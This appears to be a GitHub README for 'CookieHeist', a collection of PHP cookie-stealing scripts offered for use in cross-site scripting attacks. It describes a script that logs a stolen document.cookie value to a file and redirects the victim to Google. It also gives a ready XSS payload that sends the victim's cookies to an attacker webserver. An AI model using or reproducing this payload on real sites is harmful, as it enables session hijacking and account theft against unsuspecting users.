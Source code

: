 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php/ 
Records whatever "c" parameter holds, in example case the document.cookie string. Then writes value to log.txt and redirects to Google.com./
Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie/
XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script> /
